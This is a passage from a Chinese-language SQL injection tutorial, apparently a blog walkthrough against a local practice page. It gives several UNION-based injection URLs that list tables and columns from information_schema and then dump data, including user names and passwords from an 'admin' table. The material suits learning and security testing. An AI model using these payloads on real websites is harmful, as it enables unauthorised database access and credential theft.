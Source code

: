 方法二:

使用下面的语句也是可以查出来的

```sql
http://localhost/sqls/index.php?id=2 union select null,table_name,null from information_schema.tables where table_schema='test'
```

-  查字段

  在MySQL中，字段名存放在information_schema数据库下columns表column_name字段中,这里使用的是columns表。 

  方法一:

```
http://localhost/sqls/index.php?id=2 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='test' and table_name='sqltest'
```

  ![img](https://cdn.kayleh.top/gh/kayleh/cdn4/SQL注入漏洞/055b34fa808266a8e9af8b9cea0865db.jpg) 

也可以查看admin表中的字段。 

方法二:

```
http://localhost/sqls/index.php?id=2  union select null,column_name,null from information_schema.columns where table_schema='test' and table_name='admin'
```

- 查数据

  最终想得到的就是字段里的内容了、前面的数据库名、表名都获得了、获取值就很简单了。

  方法一:

  查询sqltest表:

  ```sql
  http://localhost/sqls/index.php?id=2  union select 1,group_concat(id,title,content),3 from `sqltest`
  ```

  查询admin表:

  ```
  http://localhost/sqls/index.php?id=2 and 1=2 union select 1,group_concat(id,user,pwd),3 from admin
  ```

  方法二:

  查询sqltest表:

  ```
  http://localhost/sqls/index.php?id=2 union select null,title,content from sqltest
  ```

  查询admin表:

  ```
  http://localhost/sqls/index.php?id=2 union select id,user,pwd from admin
  ```
